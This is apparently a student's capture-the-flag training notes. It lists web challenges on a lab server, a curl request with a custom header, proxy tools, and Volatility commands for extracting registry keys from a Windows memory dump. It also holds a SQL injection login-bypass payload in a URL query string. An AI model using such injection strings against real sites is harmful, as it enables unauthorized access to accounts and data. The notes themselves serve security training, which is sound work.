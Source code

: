 # Cybersecurity Training

## Mr Robot challenge:
- http://104.248.39.227:10001/
- http://104.248.39.227:10001/robots.txt

--

- www-data
- id = 33

--

- Docker hub: for study

## challenge:
- http://104.248.39.227:10002/
- curl http://104.248.39.227:10002/ -H 'wanna-something:the-flag'


HTTP verb:
- Post
- Get
- Put
- Delete
  
--

- Post /auth http/4.5..
- user-agent
- Origine:

--

- Burp suite
- Caido

## Headache challenge:
- http://104.248.39.227:10003/
- login
- http://104.248.39.227:10003/?username=admin'or 5=5 -- -


</hr>
--------------------

- wget http://downloads.volatilityfoundation.org/releases/2.5/volatility_2.5.linux.standalone.zip
- ./volatility_2.5_linux_x86
- ./volatility_2.5_linux_x86 -h
- ./volatility_2.5_linux_x86 -f
- ./volatility_2.5_linux_x86 -f /media/ahmed20078/ahmed78/Documents/Cyber-Projects/dump.raw imageinfo
- ./volatility_2.5_linux_x86 -f /media/ahmed20078/ahmed78/Documents/Cyber-Projects/dump.raw --profile=Win7SP1x64
- ./volatility_2.5_linux_x86 -f /media/ahmed20078/ahmed78/Documents/Cyber-Projects/dump.raw --profile=Win7SP1x64 printkey
- CMI-CreateHive{199DAFC2-6F16-4946-BF90-5A3FC3A60902}
- ./volatility_2.5_linux_x86 -f /media/ahmed20078/ahmed78/Documents/Cyber-Projects/dump.raw --profile=Win7SP1x64 hivelist
- ./volatility_2.5_linux_x86 -f /media/ahmed20078/ahmed78/Documents/Cyber-Projects/dump.raw --profile=Win7SP1x64 printkey -o 0xfffff8a00017d410
- ./volatility_2.5_linux_x86 -f /media/ahmed20078/ahmed78/Documents/Cyber-Projects/dump.raw --profile=Win7SP1x64 printkey -o 0xfffff8a00017d410 -K "flag"
